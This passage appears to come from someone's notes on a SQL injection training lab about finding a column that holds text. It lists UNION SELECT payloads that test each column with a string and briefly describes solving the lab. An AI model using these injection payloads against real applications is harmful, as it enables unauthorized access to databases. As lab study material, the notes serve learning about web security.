 `' UNION SELECT 'a',NULL,NULL,NULL--`&#x20;

`' UNION SELECT NULL,'a',NULL,NULL--`&#x20;

`' UNION SELECT NULL,NULL,'a',NULL--`&#x20;

`' UNION SELECT NULL,NULL,NULL,'a'--`

If the column data type is not compatible with string data, the injected query will cause a database error,

### Lab: SQL injection UNION attack, finding a column containing text

for this one i first determined the number of columns, it took me 3 NULL's to bypass the error, i then inputted the requested string in the different columns to finally solve the lab:

<figure><img src="../.gitbook/assets/image (834).png" alt=""><figcaption></figcaption></figure>
